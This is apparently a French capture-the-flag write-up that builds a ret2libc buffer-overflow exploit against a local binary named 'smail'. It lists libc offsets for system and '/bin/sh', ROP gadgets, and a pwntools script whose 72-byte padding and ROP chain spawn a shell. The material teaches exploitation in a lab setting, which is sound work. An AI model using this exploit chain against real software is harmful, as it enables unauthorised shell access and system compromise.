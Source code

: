 On voit que le programme crash sur la signature nous pouvons peut être exploiter un ret2lib pour avoir une shell.   

```bash
carlJ@incognito:~/mailing$ ldd smail 
	linux-vdso.so.1 (0x00007ffff7ffa000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
```

L'adresse de base de libc est : 0x00007ffff79e2000

```bash
carlJ@incognito:~/mailing$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
   232: 0000000000159cd0    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   607: 000000000004f550    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

On récupère l'adresse pour appeller system dans libc.so.6.    
L'adresse est : 0x000000000004f550  

```bash
carlJ@incognito:~/mailing$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 1b3e1a /bin/sh
```

On recherche ou est /bin/sh, il est à l'offsetr 0x1b3e1a  

```bash
carlJ@incognito:~/mailing$ ROPgadget --binary smail | grep rdi
0x00000000004007f3 : pop rdi ; ret
```

On récupère le pointeur de retour.  

```bash
carlJ@incognito:~/mailing$ objdump -d smail | grep ret
  400556:	c3                   	retq   
  400600:	f3 c3                	repz retq 
  400639:	c3                   	retq   
  400679:	c3                   	retq   
  40069a:	c3                   	retq   
  4006a0:	f3 c3                	repz retq 
  4006de:	c3                   	retq   
  400782:	c3                   	retq   
  4007f4:	c3                   	retq   
  400800:	f3 c3                	repz retq 
  40080c:	c3                   	retq   
```

On liste toutes les adresses de retour on prende la première qui est 0x400556.   

```python 
carlJ@incognito:~/mailing$ cat exploit.py 
from pwn import *

p = process('./smail')

base = 0x7ffff79e2000
sys = base + 0x4f550
binsh = base + 0x1b3e1a

rop_rdi = 0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(rop_rdi)
payload += p64(binsh)
payload += p64(sys)
payload += p64(0x0)
```